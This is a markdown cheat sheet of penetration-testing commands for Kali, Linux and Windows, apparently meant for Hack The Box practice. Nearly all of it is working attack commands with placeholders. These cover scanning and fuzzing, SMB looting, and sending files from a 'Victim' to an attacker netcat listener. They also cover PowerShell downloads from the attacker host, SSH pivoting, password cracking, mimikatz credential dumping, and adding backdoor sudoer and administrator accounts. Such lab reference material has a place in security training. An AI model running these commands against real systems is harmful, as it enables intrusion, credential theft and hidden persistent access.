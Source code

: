 # Commands

## Kali

+ ### Shortcuts

    > **SSH**: SSH with Clear Password

    ```pwsh
    sshpass -p <PASSWORD> ssh <RUSER>@<RHOST>
    ```

+ ### Enumerating

    > **NMap**: Top Scan (Fast)

    ```pwsh
    nmap -Pn -n -v -sV -sC <RHOST>
    ```

    > **NMap**: Full Scan with Firewall Protection (Slow)

    ```pwsh
    nmap -sT -sU -sV -O -T4 -A -Pn --open --max-retries 3 --max-scan-delay 1s --defeat-rst-ratelimit --script-args unsafe=1 -oN <LPATH> <RHOST>
    ```

    > **LDAP**: Full Enumerating

    ```pwsh
    ldapsearch -x -h <RHOST> -D '' -w '' -b "DC=domain,DC=local"
    ```

    > **DirSearch**: Web Enumerating

    ```pwsh
    dirsearch -u http://<RHOST>:<RPORT>/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-texts="<TEXT>"
     ```


+ ### Fuzzing

    > **WFuzz**: Fuzzing HTTP POST Data

    ```pwsh
    wfuzz -c -z file,<FUZZ-FILE> -v --hs "<BAD-TEXT>" -d "<PARAMETER>=FUZZ" "http://<RHOS>:<RPORT>/<RPATH>"
    ```

+ ### Remote Access

    > **Remote Desktop Connection**:

    ```pwsh
    rdesktop <RHOST> -r disk:share=<RPATH>
    ```

    > **PowerShell Core**:

    ```pwsh
    > New-PSSession -Credential (Get-Credential) -ComputerName <RHOST> -Authentication Negotiate
    > Enter-PSSession 1
    ```

+ ### Looting

    > **SMBClient**: Download All Files

    ```pwsh
    smbclient '\\<RHOST>\<RPATH>' -c 'prompt OFF;recurse ON;lcd '.';mget *' -U 'User'
    ```

+ ### Compiling

    > x64 Compile

    ```pwsh
    x86_64-w64-mingw32-gcc Source.c -o File.exe
    ```

    > x86 Compile

    ```pwsh
    i686-w64-mingw32-gcc Source.c -o File.exe -lws2_32
    ```

+ ### File Transfer

    > **SCP**: Secure Copy with SSH

    ```pwsh
    scp <LPATH> <RUSER>@<RHOST>:<RPATH>
    ```

    > **IPP**: From Victm (Linux) to Kali

    ```pwsh
    Vict$ /dev/shm/ipp <LHOST> <LPORT> < <FILE>
    KALI$ nc -lvnp <LPORT> > <FILE>
    ```

    > **FTP**: From Kali to Victim (Linux)

    ```pwsh
    KALI$ pyftp
    Vict> echo "open 127.0.0.1 21\nuser anonymous anonymous\nbin\ncd <PATH>\nget <FILE>\nbye" | ftp -inv
    ```

    > **FTP**: From Kali to Victim (Windows - PowerShell)

    ```pwsh
    KALI$ pyftp
    Vict> (New-Object Net.WebClient).DownloadFile('ftp://anonymous:anonymous@<KALI>:<KPORT>/<PATH>/<FILE>','<FILE>')
    ```

    > **FTP**: From Kali to Victim (Windows - CMD)

    ```pwsh
    KALI$ pyftp
    Vict> echo OPEN <KALI> <KPORT> > FTP.txt
    Vict> echo USER anonymous >> FTP.txt
    Vict> echo CD <FOLDER> >> FTP.txt
    Vict> echo BIN >> FTP.txt
    Vict> echo GET <FILE> >> FTP.txt
    Vict> ftp -v -n -s:ftp.txt
    ```

+ ### Pivoting

    > **SShuttle**: VPN-Like Network Access

    > **Note:** Server must have python 2.3 or higher.

    ```pwsh
    sshuttle -r <RUSER>@<RHOST>:<RPORT> <RSubnet>/24
    ```

    > Dynamic with SSH & ProxyChains

    ```pwsh
    > ssh -N -D 127.0.0.1:9040 <RUSER>@<RHOST>
    > export PROXYCHAINS_SOCKS4=9040
    > export PROXYCHAINS_SOCKS5=9050
    > proxychains nmap -Pn -n -sV -sC 127.0.0.1
    ```

    > Forward Static with SSH: Kali => Victim A => Victim B

    ```pwsh
    ssh -N -L 127.0.0.1:<LPORT>:<THOST>:<TPORT> <RUSER>@<RHOST>
    ```

    > Reverse Static with SSH: Kali <= Victim A

    > Note: Usefull with Low Privilage Shells

    ```pwsh
    ssh -N -R <KALI>:<LPORT>:127.0.0.1:<RPORT> <ROOT>@<KALI>
    ```

+ ### Password Cracking

    > Passwd & Shadow Files

    ```pwsh
    > unshadow passwd shadow > passwords.txt
    > john passwords.txt
    ```

    > Protected Zip Files

    ```pwsh
    > zip2john file.zip > password.txt
    > john passwords.txt
    ```

---

## Linux

+ ### Shell Helpers

    > Fixing PATH Enviroment Variable

    ```pwsh
    export PATH=$PATH:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/bin:/sbin
    ```

    > Fixing TTY

    ```pwsh
    > python -c 'import pty; pty.spawn("/bin/sh")'
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```

+ ### Process List

    > List Running Process

    ```pwsh
    > ps aux
    > ps aux | grep <PROCESS-NAME>
    ```

+ ### Liseners

    > List Liseners

    ```pwsh
    > ss -antp | grep <PORT>
    ```

+ ### Add Local Sudoer

    > Using Sudoers File

    ```pwsh
    > adduser Hacker --force-badname
    > passwd Hacker1
    > echo 'Hacker  ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
    > su - Hacker
    > sudo bash
    ```

---

## Windows

+ ### Download File

    > Inside PowerShell

    ```pwsh
    > Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>
    ```

    > Inside Command Line

    ```pwsh
    > powershell -Command "& { (New-Object Net.WebClient).DownloadFile('http://<LHOST>/<LPATH>','<FILE>') }"
    > powershell -Command "Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>"

    ```

+ ### Windows Enumeration

    > Using Net.exe

    ```pwsh
    > net user
    > net group
    ```

    > Using Mimikatz

    ```pwsh
    > mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

+ ### Add Local Administrator

    > Using Net.exe

    ```pwsh
    > net user Hacker Hacker1 /add
    > net localgroup administrators Hacker /add
    ```

---

## Hack The Box

+ ### Refresh Flags

    > User.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include user.txt
    ```

    > Root.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include root.txt
    ```
